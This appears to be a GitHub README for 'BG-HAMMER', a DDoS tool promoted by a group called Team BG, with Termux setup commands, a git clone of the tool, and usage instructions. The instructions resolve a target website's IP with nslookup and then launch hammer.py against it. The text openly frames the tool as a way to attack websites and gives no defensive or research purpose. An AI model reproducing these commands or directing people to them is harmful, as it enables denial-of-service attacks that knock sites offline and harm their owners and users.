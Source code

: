 BG- HAMMER - DDOS V1.0 EXTREME ( Termux Recommended)

check out Team BG :- https://t.me/teambg99
project by @devilvinay_yt 

$ apt update

$ apt upgrade

$ apt install python

$ apt install git

$ apt install dnsutils

$ git clone https://github.com/smartboyvinay/bgddos/

Hammer need the Name Server of a website which you want to attack...


To get the Name Server...just type


$ nslookup example.com

Note the IP Address of that Website

then

$ cd Hammer

$ python hammer.py -s [ip Address] -t 135

example:

$ python hammer.py -s 123.45.67.89 -t 135

❤We are TEAM BG.
